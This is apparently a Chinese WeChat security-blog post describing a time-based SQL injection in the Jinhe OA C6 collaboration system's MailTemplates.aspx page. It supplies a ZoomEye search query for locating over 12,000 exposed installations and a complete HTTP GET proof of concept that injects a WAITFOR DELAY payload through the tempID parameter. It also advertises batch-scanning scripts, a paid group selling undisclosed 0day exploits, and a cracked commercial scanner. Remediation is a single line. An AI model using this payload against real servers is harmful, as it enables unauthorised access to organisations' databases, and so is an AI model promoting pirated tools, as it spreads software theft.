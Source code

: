 #  金和OA-C6JHSoft-WebSQL延时注入漏洞(新接口)-漏洞挖掘   
原创 漏洞挖掘  渗透安全HackTwo   2024-01-25 00:01  
  
###   
#   
0x01 产品简介  
     
      
金和OA协同办公管理系统C6软件共有20多个应用模块，160多个应用子模块，涉及的企业管理业务包括协同办公管理、人力资源管理、项目管理、客户关系管理、企业目标管理、费用管理等多个业务范围，从功能型的协同办公平台上升到管理型协同管理平台，并不断地更新完善，全面支撑企业发展,提供专业oa,oa系统,oa办公系统,办公自动化软件,协同办公管理系统.支持oa办公自动化系统免费在线试用。这里我推荐利用 **ZoomEye**  
****搜索引擎发现影响资产12000+  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq4k2k356Lial2rcibia36AZ0uaqRlGrnM9IAX4WibEy3rFUIazQWGkTEe1rIic2dQvAbTHW86HFsiaKBdCA/640?wx_fmt=png&from=appmsg "")  
  
  
**声明******  
  
> 请自行搭建环境进行漏洞测试，该公众号或作者星球分享的工具、项目、漏洞仅供安全研究与学习之用请勿用于非法行为，如用于其他用途，由使用者承担全部法律及连带责任，与作者和本公众号无关。  
  
  
**TIPS:**  
**末尾领取资料及福利-批量检测脚本在末尾**  
  
0x02 漏洞描述        该OA-C6系统的MailTemplates.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取服务器的敏感信息。0x03 ZoomEye语法app:"金和 C6 协同管理平台"0x04 漏洞复现POCGET /C6/JHSoft.Web.Mail/MailTemplates.aspx/?tempID=1%3BWAITFOR+DELAY+%270%3A0%3A6%27-- HTTP/1.1Host: {}Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Referer: http://1.202.249.139:8555/Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Cookie: ASP.NET_SessionId=xlbkb5a0zyt1mwrhly42bhbr; myie=falseConnection: close批量检测POC脚本在末尾（请自行搭建环境检测）0x05 修复建议升级至最新版本，官方已经推出新的版本补丁包。0x06 内部福利介绍-更新啦！近期更新的0day/1day(包含公开和未公开漏洞-仅列举部分)漏洞整理更新至500+需要的加入星球获取一些漏洞报告200+(仅列举部分)加入星球获取更多资源及视频资源持续更新中！        需要加入内部知识星球可点击下方链接，资源包含但不限于网上未公开的day漏洞（更新漏洞POC共500+），2024最新企业SRC/CNVD/Edu实战挖掘技巧报告，红队内网横向渗透，代码审计，JS逆向，SRC培训等课程。圈子对新人友好，加入圈子拥有FOFA shadan 360Quake ZoomEye Tide 零零信安Hunter等等高级会员账号，SRC文档，武器库。圈子里面资料价值至少在10K以上，目前星球内部主题400+，资源2000+，其他和网盘资源1w+并持续更新中，越早加入价格越低。(详情点击下方地址了解-->>还是觉得价格贵的师傅后台回复" 星球 "有优惠券使用名额有限先到先得)点击了解-->>内部VIP知识星球福利介绍V1.2版本-元旦优惠  
  
****  
**结尾**  
  
# 免责声明  
  
  
# 获取方法  
  
  
回复"**20240125**"获取当日POC  
  
回复“**app**  
" 获取  app渗透和app抓包教程  
  
回复“**渗透字典**" 获取 针对一些字典重新划分处理，收集了几个密码管理字典生成器用来扩展更多字典的仓库。  
  
回复“**书籍**" 获取 网络安全相关经典书籍电子版pdf  
  
压缩包解压密码：HackTwo  
  
  
  
# 免责声明  
  
  
        
文章中的案例或工具仅面向合法授权的企业安全建设行为，如您需要测试内容的可用性，请自行搭建靶机环境，勿用于非法行为。如  
用于其他用途，由使用者承担全部法律及连带责任，与作者和本公众号无关。  
本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用。  
如您在使用本工具或阅读文章的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。  
本工具或文章或来源于网络，若有侵权请联系作者删除，请在24小时内删除，请勿用于商业行为，自行查验是否具有后门，切勿相信软件内的广告！  
  
  
  
# 往期推荐  
  
  
**1. 内部VIP知识星球福利介绍V1.2版本-元旦优惠**  
  
**2. 最新BurpSuite2023.12.1专业版中英文版下载**  
  
**3. 最新Nessus2024下载Windows/Linux**  
  
[4. 最新xray1.9.11高级版下载Windows/Linux](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483882&idx=1&sn=e1bf597eb73ee7881ae132cc99ac0c8e&chksm=cf16a75af8612e4c73eda9f52218ccfc6de72725eb37aff59e181435de095b71e653b446c521&scene=21#wechat_redirect)  
  
  
[5. 最新HCL AppScan Standard 10.4.128273破解版下载](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483850&idx=1&sn=8fad4ed1e05443dce28f6ee6d89ab920&chksm=cf16a77af8612e6c688c55f7a899fe123b0f71735eb15988321d0bd4d14363690c96537bc1fb&scene=21#wechat_redirect)  
  
  
  
###### 渗透安全HackTwo  
  
  
微信号：关注公众号获取  
  
后台回复星球加入：  
知识星球  
  
扫码关注 了解更多  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq6qFFAxdkV2tgPPqL76yNTw38UJ9vr5QJQE48ff1I4Gichw7adAcHQx8ePBPmwvouAhs4ArJFVdKkw/640?wx_fmt=png "二维码")  
  
  
  
喜欢的朋友可以点赞转发支持一下  
  
  
